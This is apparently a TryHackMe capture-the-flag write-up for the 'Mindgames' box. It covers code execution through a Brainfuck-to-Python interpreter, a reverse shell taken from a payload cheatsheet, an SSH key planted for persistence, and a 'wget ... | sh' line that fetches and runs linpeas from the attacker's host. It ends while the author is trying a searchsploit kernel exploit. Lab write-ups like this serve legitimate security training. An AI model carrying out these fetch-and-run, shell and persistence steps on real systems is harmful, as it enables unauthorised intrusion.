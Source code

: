 This is a writeup for the Box Mindgames on TryHackMe.


We are greeted by this webpage:

[![https://imgur.com/qYX6ZrS.png](https://imgur.com/qYX6ZrS.png)](https://imgur.com/qYX6ZrS.png)


There we can see some weird cryptic characters.

Luckily i saw it before and knew it is brainfuck code.

I used https://copy.sh/brainfuck/text.html to start playing arround with someoutput.

It seems like the code is executed in python so we can try something like a simple ls:

[![https://imgur.com/hBHedq9.png](https://imgur.com/hBHedq9.png)](https://imgur.com/hBHedq9.png)

It works!

[![https://imgur.com/Ix7XilL.png](https://imgur.com/Ix7XilL.png)](https://imgur.com/Ix7XilL.png)

Now lets try to search arround for hints / something interesting.

After searching arround i didn't find anything so i though the best way is to get a reverseshell.
I tried to copy paste one from PayloadsAllTheThings but it didn't work. (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
Took me a few min to realize that i have to adjust it because we don't need to tell the programm to run python we can just start at the import statement:

[![https://imgur.com/nbwFn9z.png](https://imgur.com/nbwFn9z.png)](https://imgur.com/nbwFn9z.png)

Now we are in!

[![https://imgur.com/q5JEsep.png](https://imgur.com/q5JEsep.png)](https://imgur.com/q5JEsep.png)

Lets find the userflag and a way to advance ! 

I found the userflag yaaay i am not going to tell you where but its not hidden.

Next i made a .ssh directory generated ssh keypair with sshkeygen and added the pubkey in the authorized file i created copyed the private key to my host machine and logged into ssh with the -i option for private key.

[![https://imgur.com/hGxHijO.png](https://imgur.com/hGxHijO.png)](https://imgur.com/hGxHijO.png)

Now on my hostmachine i already have linpeas.sh downloaded so i set up a http.server with python:

python3 -m http.server 10000

On the target in the /tmp directory we can get the file now with wget and execute it:

wget http://ip:10000/linpeas.sh | sh

We find something interesting.

[![https://imgur.com/qTykJym.png](https://imgur.com/qTykJym.png)](https://imgur.com/qTykJym.png)

[![https://imgur.com/fG0YCF6.png](https://imgur.com/fG0YCF6.png)](https://imgur.com/fG0YCF6.png)

Check kernel version:

[![https://imgur.com/e40xsCU.png](https://imgur.com/e40xsCU.png)](https://imgur.com/e40xsCU.png)

searchsploit with the kernel version gives us this beauties to check:

[![https://imgur.com/9wYBWI4.png](https://imgur.com/9wYBWI4.png)](https://imgur.com/9wYBWI4.png)

Lets try them out:

You can use searchsploit -m to download:
searchsploit -m linux/local/47164.sh

i renamed it to kernel_exploit.sh and then got it on the target machine with over our http server.

Typicall problems: forget permission and then wrong format..

[![https://imgur.com/8sOrDJc.png](https://imgur.com/8sOrDJc.png)](https://imgur.com/8sOrDJc.png)


